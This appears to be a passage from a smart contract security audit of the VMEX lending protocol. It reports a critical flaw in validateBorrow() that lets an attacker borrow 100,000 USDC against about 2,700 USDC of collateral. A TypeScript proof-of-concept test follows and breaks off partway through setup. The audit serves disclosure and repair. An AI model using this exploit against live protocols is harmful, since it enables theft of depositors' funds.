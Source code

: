 
## Critical Findings

### 1. Critical - Funds can be drained from the protocol
[`validateBorrow()`](https://github.com/VMEX-finance/vmex/blob/e1c910c6cda1988524841684ed1f37fd649450b3/packages/contracts/contracts/protocol/libraries/logic/ValidationLogic.sol#L186-L193C1) uses `msg.sender` instead of `onBehalfOf` to calculate user account data. This leads to debt not being accounted for in the right account, an attacker can exploit this issue to steal funds.

#### Technical Details

[ValidationLogic.sol#L193](https://github.com/VMEX-finance/vmex/blob/e1c910c6cda1988524841684ed1f37fd649450b3/packages/contracts/contracts/protocol/libraries/logic/ValidationLogic.sol#L193).


In the following POC, an attacker can borrow 100,000 USDC with 10 ETH of collateral with ETH being priced around 270 USD in the tests, that's about 2,700 USDC of collateral. You can run this test in your test suite.

```typescript
import {
  APPROVAL_AMOUNT_LENDING_POOL,
} from "../../helpers/constants";
import { convertToCurrencyDecimals, convertToCurrencyUnits } from "../../helpers/contracts-helpers";
import { expect } from "chai";
import { ethers } from "ethers";
import { ProtocolErrors } from "../../helpers/types";
import { makeSuite, TestEnv } from "./helpers/make-suite";
import { CommonsConfig } from "../../markets/aave/commons";
import { getVariableDebtToken } from "../../helpers/contracts-getters";

const AAVE_REFERRAL = CommonsConfig.ProtocolGlobalParams.AaveReferral;

makeSuite("Borrow exploit", (testEnv: TestEnv) => {

  it("exploit", async () => {
    const { users, pool, weth, usdc, oracle } = testEnv;

    var ethPrice = await oracle.getAssetPrice(weth.address)
    console.log("eth price: ", ethPrice)

    var usdcPrice = await oracle.getAssetPrice(usdc.address)
    console.log("usdc price: ", usdcPrice)

    var victims = users[0]
    var config = await pool.getReserveData(usdc.address, 0)
    var debtToken = await getVariableDebtToken(config[7])

    // Seed 1M in the pool.
    await usdc
    .connect(victims.signer)
    .mint(await convertToCurrencyDecimals(usdc.address, "1000000"));

    await usdc
      .connect(victims.signer)
      .approve(pool.address, APPROVAL_AMOUNT_LENDING_POOL);

    await pool
      .connect(victims.signer)
      .deposit(
        usdc.address,
        0,
        await convertToCurrencyDecimals(usdc.address, "1000000"),
        victims.address,
```